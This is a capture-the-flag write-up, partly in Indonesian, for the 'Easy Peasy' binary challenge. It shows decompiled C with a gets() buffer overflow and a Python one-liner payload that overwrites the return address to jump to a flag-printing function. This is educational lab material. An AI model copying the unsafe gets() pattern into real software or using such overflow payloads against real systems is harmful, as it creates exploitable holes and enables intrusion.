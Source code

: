 # Easy Peasy

> A super secret piece of information has been hidden behind a program made by 1337 hackers. Find this crucial piece of information
> Author: Anand Rajaram

Tags: binary
Difficulty: easy
Points: 100

function main

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx

  puts("Please enter the super secret password to display the flag:", argv, envp);
  fflush(stdout);
  vuln();
  puts("Invalid password, try again\n", argv, v3);
  return 0;
}
```

function vuln

```
__int64 vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  return gets(v1);
}
```

function win

```
__int64 win()
{

  v9 = fopen64("flag.txt", &unk_498008);
  if ( !v9 )
  {
    printf(
      (unsigned int)"%s %s",
      (unsigned int)"Please create 'flag.txt' in this directory with your",
      (unsigned int)"own debugging flag.\n",
      v0,
      v1,
      v2,
      v8[0]);
    exit(0LL);
  }
  fgets(v8, 64LL, v9);
  return printf((unsigned int)v8, 64, v3, v4, v5, v6, v8[0]);
}
```

berikut alamat dari fungsi win yang mencetak flag

![](https://github.com/muhammadhendro/CTF-Writeups/blob/master/2023/DeconstruCT.F%202023/Easy%20Peasy/1.png)

payload yang digunakan:

```
python -c "import sys; import struct; sys.stdout.buffer.write(b'A'*40 + struct.pack('<Q', 0x00000000004017ea))" | ./ezpz
```
